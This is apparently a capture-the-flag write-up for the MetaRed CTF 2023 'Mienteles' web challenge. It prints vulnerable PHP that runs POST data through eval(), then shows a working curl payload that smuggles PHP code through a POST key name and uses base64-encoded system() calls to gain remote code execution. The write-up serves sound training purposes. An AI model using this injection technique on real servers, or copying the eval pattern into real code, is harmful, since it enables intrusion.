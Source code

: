 # MetaRed CTF 2023 - Mienteles

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

In this challenge we given the source code, let's just see the source code.

```php
 <?php

if(isset($_GET['src'])){
    highlight_file(__FILE__);
    die();
}
?>
<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Mienteles Telecomunicaciones</title>
    
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css">
</head>
<body>
    
    <nav class="navbar navbar-expand-lg navbar-dark" style="background-color:#005F9F">
        <a class="navbar-brand">Mienteles</a>
        <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarNav" aria-controls="navbarNav" aria-expanded="false" aria-label="Toggle navigation">
            <span class="navbar-toggler-icon"></span>
        </button>
        <div class="collapse navbar-collapse" id="navbarNav">
            <ul class="navbar-nav">
                <li class="nav-item active">
                    <a class="nav-link" href="#">Inicio</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Servicios</a>
                </li>
                <li class="nav-item">
                    <a class="nav-link" href="#">Contacto</a>
                </li>
            </ul>
        </div>
    </nav>

    
 
    <div class="text-center">
        <img src="./mienteles.svg" alt="">
    </div>
    
    <section class="py-5">
        <div class="container">
            <h2 class="text-center">Nuestros Servicios</h2>
            <div class="row">
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio1.jpg" class="card-img-top" alt="Servicio 1" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Bug Bounty Program</h5>
                            <p class="card-text">Tenemos publicado nuestro programa de Bug Bounty. Si encuentras un RCE, no te pagamos :).</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio2.jpg" class="card-img-top" alt="Servicio 2" style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Internet</h5>
                            <p class="card-text">Tenemos planes de internet para usted</p>
                        </div>
                    </div>
                </div>
                
                <div class="col-md-4">
                    <div class="card">
                        <img src="servicio3.jpg" class="card-img-top" alt="Servicio 3"  style="height:518px">
                        <div class="card-body">
                            <h5 class="card-title">Flag</h5>
                            <p class="card-text">Aquí estará tu flag: </p>
                            <!-- Accede a ?src -->
                            <?php
                                error_reporting(0);
                                if ($_POST['keyl']==md5(date('Y-m-d'))){
                                            foreach($_POST as $name => $value){        
                                                $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                                                eval($assign);
                                            }
                                }
                                else{
                                    echo "No podes hackearme";
                                }

                            ?>
                        </div>
                    </div>
                </div>
            </div>
        </div>
    </section>

    
    <footer class="footer text-white text-center py-3" style="background-color:#005F9F">
        <div class="container">
            <p>&copy; 2023 Mienteles Telecomunicaciones. Todos los derechos reservados.</p>
        </div>
    </footer>

    
    <script src="https://code.jquery.com/jquery-3.3.1.slim.min.js"></script>
    <script src="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/js/bootstrap.min.js"></script>
</body>
</html>

```

From the source code, we know that to get the flag we need to do post request with key keyl which is must to be equal to \`md5(date('Y-m-d'))\`.

We know using md5 function potential to hash collision and in the code the program is md5 hashed date of current date, which mean it's easy to get the hash by using php to do md5 hash.

{% code title="md5.php" lineNumbers="true" %}
```php
<?php
    echo md5(date('Y-m-d'));
?>
```
{% endcode %}

And then in local i created replicated php code like on server.

{% code title="index.php" lineNumbers="true" %}
```php
<?php
    if ($_POST['keyl']==md5(date('Y-m-d'))){
                foreach($_POST as $name => $value){        
                    $assign = "\$" . $name . "='".preg_replace('([^A-Za-z0-9@. _-])', '', $value)."';";
                    echo $assign;
                    eval($assign);
                }
    }
    else{
        echo "No podes hackearme";
    }
?>
```
{% endcode %}

And just run the index.php and used result from md5.php as value of key \`keyl\` post data.

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

As you can see, the local server return with `$keyl='6bde8c88ffee17ea27c8e281299dcf47';` which our post data is set as variable and value in php and based on the source code, the result will used in `eval` function which is we know the `eval` function is evil.

Then i try add more post data and if i try to called function system as post value, our input got cleaned.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

After try a few times, i realized if we can manipulate the key post data. For basic i try add \`'\` in key value and i got something interesting.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

The result return with `$cmd'` and the local server is crashed/error. which maybe we can get remote code execution from it, after try a few times finaly i can make the local server return with proper php code and the local server is not crashed/error.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

But we have problem, if we try to run command with space it will replace it with `_` .

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

But we can bypass it by base64 encoded the command.

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

and we can try it on server using below command.

```sh
curl -X POST https://mienteles.ctf.cert.unlp.edu.ar/ --data "keyl=6bde8c88ffee17ea27c8e281299dcf47&cmd;system(base64_decode('bHMgLWxhCg'));//'=12);"
```

And we successfully get remote code execution.

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

Flag: flag{N1c3!No\_B0untY\_But\_Th1s\_1s\_ur\_fl4G}
